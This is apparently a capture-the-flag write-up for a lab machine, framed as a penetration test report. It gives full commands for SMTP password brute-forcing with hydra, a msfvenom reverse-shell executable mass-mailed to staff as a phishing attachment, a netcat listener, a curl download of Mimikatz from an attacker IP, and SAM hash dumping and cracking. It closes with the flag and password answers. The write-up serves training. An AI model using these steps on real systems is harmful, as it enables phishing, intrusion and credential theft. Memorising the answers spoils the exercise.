







# Brik Security Assessment - Penetration Test Report

**Target IP:** 10.10.157.174  
**Domain:** brownbrick.co  
**Assessment Type:**  
- Active reconnaissance on IP  
- Passive reconnaissance on domain

# Scenario:
You are a penetration tester who has recently been requested to perform a security assessment for Brik. You are permitted to perform active assessments on 10.10.184.213 and strictly passive reconnaissance on brownbrick.co. The scope includes only the domain and IP provided and does not include other TLDs.

---

## Reconnaissance

### Nmap Scan

Lets look at the open port on the given target ip with the command:
```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.157.174
```
{: width="972" height="589" }

Result:
- Port 25 open (SMTP)

---

## Web Reconnaissance

### Site Visited
- Now lets look at the website we are given,
[https://brownbrick.co/menu.html](https://brownbrick.co/menu.html)

{: width="972" height="589" }

Checking the Our Team section at https://brownbrick.co/menu.html, we can find a some of email addresses. Save all the emails in email.txt as shown below:

{: width="972" height="589" }

For the emails, we can create a custom wordlist from website using cewl as follows:
```bash
cewl --lowercase https://brownbrick.co/ > passwords.txt
```


Using hydra to test these passwords against the email addresses we found, we are able to discover the password for the lhedvig@brownbrick.co email account:
```bash
hydra -L emails.txt -P passwords.txt 10.10.157.174 smtp -s 587 -t 16
```

{: width="972" height="589" }

with this we are ready to exploit the webpage,

### Reverse Shell access
### Task2: Q1 What is the user flag?

### Step 1: Create Reverse Shell Payload
Now that we have valid credentials, we can use them to send emails to other users.
First, we create a reverse shell executable to use as an attachment with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.136.147 LPORT=443 -f exe -o shell.exe
```


### Step 2: Send Payload to All Users
Then, using our email list, we can use sendemail to send emails with our executable as an attachment to the other users:

```bash
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.157.174:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```

{: width="972" height="589" }

### Step 3: Start Listener
Listen to por 443 with following command:

```bash
rlwrap nc -lvnp 443
```
{: width="972" height="589" }

---


### Result:
- With this, we can see that our executable is executed by one of the users, granting us a shell as wrohit and we can then read the flag located at
```bash
 C:\Users\wrohit\Desktop\flag.txt.
```

---

Answer: THM{l1v1n_7h3_br1ck_l1f3}


## Task 2: Q2 Privilege Escalation
### What is the password of the user wrohit?

At this point, since we are a member of the Administrators group, we can simply upload Mimikatz to the machine and use it to dump the hashes from the SAM registry as follows:
```bash
curl http://10.10.136.147/mimikatz.exe -o mimikatz.exe
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

You see the output as shown below:

```bash
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```
We can then use CrackStation to crack the hash and recover the password for the user.

{: width="972" height="589" }

Answer: superstar

---

## Q3: What is the password to access the hMailServer Administrator Dashboard?
**Location:**
```bash
C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI
```

**Extracted:**
```ini
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
```

Once again, using CrackStation to crack the hash, we can retrieve the password and complete the challenge.

{: width="972" height="589" }

Answer: password

---

## Summary of Answers

| Question                                      | Answer                         |
|----------------------------------------------|--------------------------------|
| What is the user flag?                        | `THM{l1v1n_7h3_br1ck_l1f3}`    |
| What is the password of user wrohit?          | `superstar`                    |
| hMailServer Administrator Dashboard Password  | `password`                     |

---

